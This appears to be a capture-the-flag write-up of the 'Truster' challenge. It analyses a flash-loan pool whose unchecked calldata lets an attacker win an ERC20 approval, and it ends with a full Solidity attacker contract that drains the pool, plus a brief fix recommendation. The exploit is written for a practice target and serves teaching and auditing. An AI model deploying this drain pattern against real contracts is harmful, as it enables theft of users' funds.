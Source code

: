 # Truster

## Introduction
The goal is to siphon all the funds from a pool in a single transaction.

## Code Breakdown
There is only 1 smart contract and consist of 1 function ***flashLoan***.
Let's start by looking at the variable.
```
using Address for address;
IERC20 public immutable damnValuableToken;
```
Both variables are using openzepplin libraries. There links below shows the function available.
Reference: https://docs.openzeppelin.com/contracts/3.x/api/utils#Address.
https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20.

Next, an IERC20 token address is called during the constructor
```
constructor (address tokenAddress) {
    damnValuableToken = IERC20(tokenAddress);
}
```

Lastly, the ***flashLoan*** function requires 4 variables.
```
function flashLoan(
    uint256 borrowAmount,
    address borrower,
    address target,
    bytes calldata data
)
```
It checks if the amount of token in the pool is more than borrow amount
```
uint256 balanceBefore = damnValuableToken.balanceOf(address(this)); 
require(balanceBefore >= borrowAmount, "Not enough tokens in pool"); 
```

After the check, it'll transfer the token to the borrower and execute a low level call
```
damnValuableToken.transfer(borrower, borrowAmount); //transfer to borrower
target.functionCall(data);
```

Finally, it will check if the flash loan is returned to the pool
```
uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
```

Since there are Reentrancy Guard employued in the contract and function, it is not plausible for a reentrancy attack. A direct transfer of token is not an option as well.
Let's look at the ***target.functionCall(data)***
Reference: https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol

Notice that it calls for ```return functionCallWithValue(target, data, 0, "Address: low-level call failed!");```.

Tracing that, we'll arrive at this function. Now we can find a way to call a function within the flashloan.
```
require(address(this).balance >= value, "Address: insufficient balance for call");
(bool success, bytes memory returndata) = target.call{value: value}(data);
return verifyCallResultFromTarget(target, success, returndata, errorMessage);
```

## Hints
We can call a low level approval that allow the attacker to transfer funds on the behalf of this contract. Here's the flow:
1) Execute flashloan
2) Within the flashloan, ***target.functionCall(data);*** will execute an approval for attacker to transfer token on the contract's behalf in the future
3) Return the flashloan and complete the function
4) Transfer the tokens on behalf of the contract

Here are reference links to read up
Reference: https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20-approve-address-uint256-
https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20-transferFrom-address-address-uint256-

## Solution
Here's an easy solution. We want to execute a low-level call to authorise our attacker address to transfer tokens in the future. Here's the statement to obtain the call data.
```
bytes memory attackcalldata = abi.encodeWithSignature(
    "approve(address,uint256)",
    address(this),
    tokens
);
```

Then, we'll drop the call data into the flashLoan function when it'll execute the ***approve*** call.
```
pool.flashLoan(0, msg.sender, address(damnValuableToken), attackcalldata);
```

Lastly, the attacker is now an authorised user to transfer token on behalf of the smart contract pool.
```
damnValuableToken.transferFrom(address(pool), msg.sender, tokens);
```

A new smart contract is drawn up for this solution. Here's the codes.
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../truster/TrusterLenderPool.sol";

/**
 * @title TrusterAttacker
 * @author BingleBangle-BH's attacker contract
 */
contract TrusterAttacker is ReentrancyGuard {

    IERC20 public immutable damnValuableToken;
    TrusterLenderPool public immutable pool;

    constructor (address _pool, address _token){
        pool = TrusterLenderPool(_pool);
        damnValuableToken = IERC20(_token);
    }

    function drainFunds(uint256 tokens) external nonReentrant{
        bytes memory attackcalldata = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            tokens
        );
        pool.flashLoan(0, msg.sender, address(damnValuableToken), attackcalldata);
        damnValuableToken.transferFrom(address(pool), msg.sender, tokens);

    }
}
```

## Reccommendations
Do not allow unidentified users to insert calldata. If need be, always check ```msg.sender``` against a list of whitelisted address.